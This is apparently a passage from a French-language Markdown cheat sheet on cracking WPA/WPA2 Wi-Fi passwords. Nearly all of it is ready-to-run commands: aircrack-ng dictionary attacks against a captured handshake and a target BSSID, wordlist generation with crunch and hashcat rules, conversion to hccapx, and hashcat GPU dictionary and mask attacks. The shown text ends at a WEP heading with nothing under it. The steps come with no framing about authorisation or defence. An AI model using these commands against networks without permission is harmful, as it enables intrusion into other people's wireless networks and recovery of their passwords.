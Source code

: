 ### Validation du handshake
```bash
# Vérifier la capture du handshake
aircrack-ng handshake-01.cap

# Analyse avec Wireshark
wireshark handshake-01.cap
```

## 🔐 Crackage WPA/WPA2

### Attaque par dictionnaire
```bash
# Crackage avec dictionnaire simple
aircrack-ng -w wordlist.txt handshake-01.cap

# Avec BSSID spécifique
aircrack-ng -w rockyou.txt -b [TARGET_BSSID] handshake-01.cap

# Dictionnaire multiple
aircrack-ng -w wordlist1.txt,wordlist2.txt handshake-01.cap
```

### Génération de dictionnaires
```bash
# Crunch pour génération de mots de passe
crunch 8 12 abcdefghijklmnopqrstuvwxyz0123456789 -o wordlist.txt

# Avec patterns spécifiques
crunch 8 8 -t @@@@@@%% -o wordlist.txt

# Hashcat rules
hashcat --stdout -r rules/best64.rule rockyou.txt > custom_wordlist.txt
```

### Optimisation GPU avec Hashcat
```bash
# Conversion cap vers hccapx
cap2hccapx.py handshake-01.cap handshake.hccapx

# Crackage GPU
hashcat -m 2500 handshake.hccapx rockyou.txt

# Avec règles
hashcat -m 2500 handshake.hccapx rockyou.txt -r rules/best64.rule

# Attaque par masque
hashcat -m 2500 handshake.hccapx -a 3 ?d?d?d?d?d?d?d?d
```

## 🔓 Attaques WEP (Legacy)
